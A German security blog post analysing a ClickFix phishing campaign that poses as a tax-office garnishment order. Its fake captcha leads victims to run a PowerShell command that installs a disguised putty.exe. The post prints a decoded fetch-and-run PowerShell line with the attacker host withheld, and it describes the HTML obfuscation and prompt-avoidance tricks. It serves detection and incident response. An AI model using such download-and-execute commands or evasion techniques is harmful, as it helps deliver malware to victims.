






Ein angeblicher **Pfändungsbeschluss des Bundeszentralamts für Steuern**, eine kurze Frist und die Aussicht auf ein gesperrtes Konto: Diese E-Mail ist darauf ausgelegt, dass man erst erschrickt und später nachdenkt. Im Anhang steckt allerdings kein Bescheid, sondern eine präparierte HTML-Datei.

Wer sie öffnet, soll mit `Windows + R`, `Strg + V` und `Enter` angeblich beweisen, dass er ein Mensch ist. Tatsächlich startet das Opfer damit selbst einen verschleierten PowerShell-Befehl. Diese Angriffsmethode heißt **ClickFix** – und in diesem Fall endet sie bei einer als `putty.exe` getarnten Schadsoftware.

Wir haben die HTML-Datei und alle erreichbaren Folgestufen statisch untersucht. Die Schadsoftware wurde dabei **nicht ausgeführt**.

## Der Köder: angebliche Kontopfändung

Die Mail behauptet, gegen den Empfänger sei ein Pfändungsbeschluss nach § 249 Abgabenordnung ergangen. Aktenzeichen, Referenznummern, Gesetzesstellen und eine kurze Frist sollen amtliche Präzision vortäuschen. Im Betreff wird zusätzlich die „unverzügliche Weiterleitung“ an die Rechts- oder Steuerabteilung verlangt.



Schon vor dem Öffnen des Anhangs gibt es deutliche Warnzeichen:

* Die Absenderadresse lautet ausgerechnet `hacker@trackk.app` und gehört nicht zum BZSt.
* Unterzeichnet ist die Nachricht von einem angeblichen Präsidenten „Dr. Thomas Reinhardt“. Das BZSt wird laut [offiziellem Impressum](https://online.portal.bzst.de/Webs/KTST/DE/Service/Impressum/impressum_node.html) von Präsidentin Maren Kohlrust-Schulz vertreten.
* In Steuersachen heißt der Rechtsbehelf nach [§ 347 AO](https://www.gesetze-im-internet.de/ao_1977/__347.html) **Einspruch**, nicht Widerspruch.
* Die behauptete automatische aufschiebende Wirkung ist falsch: [§ 361 AO](https://www.gesetze-im-internet.de/ao_1977/__361.html) sagt ausdrücklich, dass ein Einspruch die Vollziehung grundsätzlich nicht hemmt.
* Falsche Angaben in einer Versicherung an Eides statt fallen nicht einfach unter § 370 AO. Dieser behandelt Steuerhinterziehung; einschlägig kann vielmehr [§ 156 StGB](https://www.gesetze-im-internet.de/stgb/__156.html) sein.
* Ein echter Hauptbescheid käme kaum als 263 KB große `.html`-Datei daher.

Die echte Anschrift des BZSt haben die Täter dagegen korrekt übernommen. Genau diese Mischung aus echten und falschen Details macht solche Nachrichten gefährlicher als plumpe Spam-Mails.

## Das „Captcha“, das keines ist

Nach dem Öffnen des HTML-Anhangs erscheint eine sauber gestaltete Seite im Namen des BZSt. Darin steckt eine vermeintliche Cloudflare-Prüfung. Die Seite verlangt:

1. `Windows + R` drücken,
2. den Inhalt der Zwischenablage mit `Strg + V` einfügen,
3. mit `Enter` bestätigen.



Kein seriöses Captcha fordert dazu auf, einen unbekannten Befehl über den Windows-Ausführen-Dialog zu starten. Der Klick auf die vermeintliche Prüfung kopiert unbemerkt einen vorbereiteten PowerShell-Befehl in die Zwischenablage. Selbst die angezeigte „Ray ID“ ist nur lokal erzeugte Dekoration – Cloudflare ist an dieser Prüfung überhaupt nicht beteiligt.

Genau das ist das Prinzip von **ClickFix**: Nicht ein Makro oder ein Exploit startet den Angriff, sondern der Mensch wird dazu gebracht, den Schadcode selbst auszuführen. [Microsoft beschreibt ClickFix](https://www.microsoft.com/en-us/security/blog/2025/08/21/think-before-you-clickfix-analyzing-the-clickfix-social-engineering-technique/) als zunehmend verbreitete Social-Engineering-Methode, bei der gefälschte Captchas oder Fehlermeldungen zu kopierten Terminalbefehlen führen.

## Was landet in der Zwischenablage?

Der kopierte Text beginnt harmlos aussehend mit `powershell`, startet das Fenster minimiert und übergibt den eigentlichen Befehl Base64-codiert:



Base64 ist keine Verschlüsselung. Nach dem Decodieren und Auflösen mehrerer PowerShell-Aliase bleibt sinngemäß diese erste Stufe übrig:

```powershell
Invoke-Expression (Invoke-RestMethod "http://[Angreifer-Server]/pp.txt")
```

Die Serveradresse veröffentlichen wir bewusst nicht. Entscheidend ist die Funktion: `Invoke-RestMethod` lädt Text aus dem Internet, `Invoke-Expression` führt diesen Text unmittelbar als PowerShell-Code aus. Die Datei `pp.txt` muss dafür nicht erst sichtbar im Download-Ordner landen.

## Die komplette Angriffskette

Unsere Analyse ergibt folgenden Ablauf:

```text
Phishing-Mail
  └─ präparierter HTML-Anhang
       └─ falsches BZSt-/Cloudflare-Captcha
            └─ PowerShell-Befehl in der Zwischenablage
                 └─ pp.txt wird geladen und im Speicher ausgeführt
                      ├─ vollmacht.pdf wird gespeichert und geöffnet
                      └─ putty.exe wird gespeichert und gestartet
```

`pp.txt` besteht fast vollständig aus zufällig wirkendem Fülltext. Dazwischen liegt ein Hex-Block, bei dem zunächst Zeichen ersetzt werden. Anschließend wandelt `SoapHexBinary::Parse` den Block in Bytes um, decodiert ihn als UTF-8 und führt das Ergebnis erneut mit `Invoke-Expression` aus.

Der darin versteckte Downloader legt zwei Dateien im Benutzerprofil ab:

* `%APPDATA%\vollmacht.pdf`
* `%APPDATA%\putty.exe`

Zuerst öffnet er das PDF. Direkt danach startet er die EXE. Das sichtbare Dokument beschäftigt das Opfer, während im Hintergrund die eigentliche Nutzlast läuft.



Bemerkenswert ist außerdem der Parameter `-UseBasicParsing`. Er verhindert bei aktualisierten Windows-PowerShell-5.1-Systemen den Sicherheitsdialog, der ansonsten beim Abruf von Webinhalten erscheinen kann. Die Täter haben ihren Downloader also an aktuelle Schutzmaßnahmen angepasst.

## Das PDF: glaubwürdige Ablenkung

Bei `vollmacht.pdf` handelt es sich um ein zweiseitiges deutsch-englisches Formular mit dem Titel „Vollmacht in Steuersachen“ gemäß §§ 80 und 123 AO.



Die statische Untersuchung fand darin kein JavaScript, keine automatische Startaktion, keine eingebettete Datei und keine Verschlüsselung. Das PDF ist nach aktuellem Stand lediglich ein Köder. Es soll den Eindruck erwecken, der vermeintliche Behördenvorgang sei erfolgreich geöffnet worden.

## Die eigentliche Payload: `putty.exe`

Der Dateiname soll offenbar Vertrauen wecken, mit dem bekannten SSH-Programm PuTTY hat die Datei aber nichts zu tun. Die untersuchte Datei ist eine unsignierte 64-Bit-Windows-EXE mit widersprüchlichen Ressourcendaten:

* Teile der Metadaten nennen **FileZilla 3.71.1**.
* Das Manifest und weitere Strings nennen **FL Studio 21.1.1.3750** und Komponenten wie `FLEngine_x64.dll`.
* Die Datei besitzt elf PE-Sektionen. Zusätzliche Bereiche wie `.itext` und `wvi` weisen eine sehr hohe Entropie auf – ein typisches Zeichen für komprimierten oder verschlüsselten Code.
* Rund 724 KB der auffälligen Sektion `.itext` lassen sich mit normalen String- und Regelanalysen nicht sinnvoll lesen.

Bei unserer Prüfung meldeten 12 von 71 Virenscannern die Datei als schädlich. Die Bezeichnungen reichen unter anderem von `Stealc` über `Zusy` bis zu generischen Trojaner- und Injector-Funden. Solche Herstellernamen sind nicht einheitlich; eine konkrete Malware-Familie lässt sich daraus allein nicht zweifelsfrei ableiten. Klar ist aber: Die Datei ist kein legitimes PuTTY und wurde innerhalb einer dokumentierten Schadcodekette heruntergeladen und gestartet.



## Technischer Blick in den HTML-Anhang

Auch der HTML-Anhang selbst ist mehrstufig verschleiert:

1. Ein großer Base64-Block steckt in einer CSS-Variable. Die ersten Bytes dienen als Schlüssel und Zähler für **AES-CTR**.
2. Ein winziges Bootstrap-Skript liest die CSS-Variable, entschlüsselt den Inhalt über die Web-Crypto-API und führt ihn dynamisch aus.
3. Der entschlüsselte JavaScript-Code baut erst jetzt die gefälschte BZSt-Seite auf. Mobile Browser werden abgewiesen; die Kampagne zielt auf Windows.
4. Der PowerShell-Befehl liegt nochmals mit **PBKDF2-HMAC-SHA256** und 210.000 Iterationen abgeleitet sowie **AES-GCM** verschlüsselt in der Seite.
5. Erst der Klick auf die falsche Prüfung entschlüsselt den Befehl und schreibt ihn mit `navigator.clipboard.writeText()` in die Zwischenablage.

Die Verschleierung soll nicht den Benutzer beeindrucken, sondern Scanner und Analysten beschäftigen. Der Browser sieht zunächst vor allem CSS, Base64 und verschlüsselte Daten statt eines leicht erkennbaren PowerShell-Befehls.

## Prüfsummen für die Erkennung

Für Administratoren und Incident-Responder sind folgende SHA-256-Werte relevant:

| Datei | Größe | SHA-256 |
|---|---:|---|
| ursprünglicher HTML-Anhang | 268.815 Bytes | `da1d38bae4ff92283aaccfdef737a6f63788e410f0b5aa575bf362aa4a54edd6` |
| `pp.txt` | 19.089 Bytes | `d49af283bf5378100d3f7380494b32d960d7e8e06f3b8d58801abd97211b6f9f` |
| `vollmacht.pdf` | 214.793 Bytes | `51db85ef5619b6f01dd03b4b6cd53ed5879cfbe75192c3fe98a0bf1bfb3abd7d` |
| `putty.exe` | 3.762.176 Bytes | `73f247ea8d5346b650d8f7dab20e9951c16eb99b3f12fd19c50a1ecf3584ba48` |

Die Server-Zeitstempel von `pp.txt` und `putty.exe` lagen nur wenige Minuten auseinander und fielen auf den Beginn des in der Mail genannten Datums. Das deutet darauf hin, dass die Infrastruktur unmittelbar für diese Kampagne vorbereitet wurde. Serverinhalte können allerdings jederzeit ausgetauscht werden; die Hashes beschreiben deshalb nur die von uns untersuchten Dateien.

## Warum ClickFix so gefährlich ist

ClickFix umgeht eine wichtige Erwartung: Viele Menschen wissen inzwischen, dass sie keine unbekannte EXE anklicken sollen. Hier sehen sie aber zunächst nur eine HTML-Seite und eine vermeintlich vertraute Prüfung. Den entscheidenden Startschuss geben sie anschließend selbst über eine Windows-Systemfunktion.

PowerShell, der Ausführen-Dialog und die Zwischenablage sind legitime Bestandteile des Systems. Genau deshalb können rein dateibasierte Schutzmechanismen den Beginn der Kette übersehen. Der Angriff braucht keine unbekannte Sicherheitslücke – er missbraucht Vertrauen, Zeitdruck und vorhandene Werkzeuge.

Wie groß die Folgen verwandter Methoden werden können, zeigt der Angriff auf Berliner Behörden. [Heise berichtet über den vom BSI genannten Angriffsvektor](https://www.heise.de/news/BSI-erklaert-ersten-Angriffsvektor-auf-Berliner-Behoerden-11444072.html): Dort kam mit „TerminalFix“ eine ClickFix-Variante zum Einsatz, bei der Opfer einen kopierten Befehl über das Windows-Terminal ausführten. Das ist **nicht dieselbe Kampagne und nicht dieselbe Payload** wie unser Fund – das Social-Engineering-Prinzip ist jedoch nahezu identisch.

## Was tun, wenn man die Datei geöffnet hat?

**Nur die E-Mail gelesen:** Solange der HTML-Anhang nicht geöffnet und kein Befehl ausgeführt wurde, ist diese Infektionskette nicht gestartet. Mail und Anhang löschen beziehungsweise der zuständigen IT melden.

**HTML geöffnet, aber nichts eingefügt:** Seite schließen, den Inhalt der Zwischenablage verwerfen und einen aktuellen Virenscan durchführen. Allein das Anzeigen der untersuchten Seite startete die Payload noch nicht.

**`Windows + R`, `Strg + V` und `Enter` ausgeführt:** Das Gerät als kompromittiert behandeln.

1. Netzwerkverbindung trennen, aber den Rechner in Unternehmensumgebungen nicht eigenmächtig ausschalten.
2. Sofort IT- oder Incident-Response-Team informieren und Zeitpunkt sowie sichtbare Schritte notieren.
3. Passwörter von einem sauberen Gerät ändern, aktive Sitzungen abmelden und Mehrfaktor-Authentifizierung prüfen.
4. Nicht darauf vertrauen, dass das Löschen von `putty.exe` genügt. Das System sollte forensisch untersucht und im Zweifel neu aufgesetzt werden.
5. In Unternehmen insbesondere den PowerShell-Verlauf, `RunMRU`, Prozessprotokolle und Verbindungen rund um `powershell.exe` prüfen.

## Fazit

Der angebliche Pfändungsbeschluss ist Kulisse. Das falsche Captcha ist der eigentliche Schalter – und der Finger des Opfers ersetzt den Exploit. Eine Behörde, Cloudflare oder irgendein seriöser Dienst wird niemals verlangen, zur „Verifizierung“ `Windows + R` zu drücken und einen unbekannten Befehl aus der Zwischenablage auszuführen.

Wenn eine Webseite für den Nachweis, dass man ein Mensch ist, plötzlich PowerShell benötigt, ist die richtige Tastenkombination deshalb deutlich einfacher: **Fenster schließen.**
